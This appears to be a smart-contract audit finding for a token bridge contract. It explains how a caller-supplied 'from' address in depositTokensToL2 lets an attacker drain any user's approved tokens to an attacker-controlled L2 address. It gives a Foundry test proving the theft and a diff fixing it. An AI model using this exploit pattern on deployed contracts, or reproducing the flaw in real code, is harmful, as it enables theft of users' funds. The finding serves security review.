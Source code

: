 ### [H-1] Users who give tokens approvals to `L1BossBridge` may have those assets stolen

**Description:** The `depositTokensToL2` function allows anyone to call it with a from address of any account that has approved tokens to the bridge.

As a consequence, an attacker can move tokens out of any victim account whose token allowance to the bridge is greater than zero.

**Impact:** This will move the tokens into the bridge vault, and assign them to the attacker's address in L2 (setting an attacker-controlled address in the l2Recipient parameter).

As a PoC, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanMoveApprovedTokensOfOtherUsers() public {
    vm.prank(user); // The user is impersonated to execute the next transaction.
    token.approve(address(tokenBridge), type(uint256).max); // The user approves the tokenBridge contract to spend an unlimited amount of their tokens (type(uint256).max).

    uint256 depositAmount = token.balanceOf(user); // Retrieves the total token balance of the user. This will be the amount the attacker attempts to transfer.
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge)); // Prepares the test to expect an event (Deposit) emitted by the tokenBridge contract. This event likely records the user as the source of the deposit, attackerInL2 as the L2 recipient, and depositAmount as the amount.
    emit Deposit(user, attackerInL2, depositAmount);
    tokenBridge.depositTokensToL2(user, attackerInL2, depositAmount); // The attacker uses the tokenBridge contract to move the user's tokens to an L2 address controlled by the attacker (attackerInL2).

    assertEq(token.balanceOf(user), 0);
    assertEq(token.balanceOf(address(vault)), depositAmount); // Verifies that the deposited tokens are now stored in the vault (or the contract handling the tokens for the bridge).
    vm.stopPrank();
}
```

**Proof of Concept:**

**Recommended Mitigation:**
Consider modifying the depositTokensToL2 function so that the caller cannot specify a from address.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}
```
